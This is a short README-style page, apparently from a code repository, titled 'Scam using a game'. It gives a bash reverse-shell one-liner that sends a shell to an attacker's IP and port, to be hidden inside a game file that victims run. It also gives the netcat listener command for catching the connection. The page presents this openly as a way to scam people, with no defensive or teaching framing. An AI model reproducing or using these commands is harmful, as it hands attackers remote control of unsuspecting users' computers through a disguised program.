 #Scam using a game

The command to insert in your scam game is as commented below: <br/>
/bin/bash -i >/dev/tcp/{YOUR_LISTENING_IP_ADDRESS}/{THE_PORT_YOURE_LISTENING_TO} 0<&1 2>&1<br/>
The command to use for entry is: <br/>
nc -lnvp PORT -s YOUR_IP_ADDRESS<br/>
Note: The ip address in your file is the same as the ip you'll be listening using.
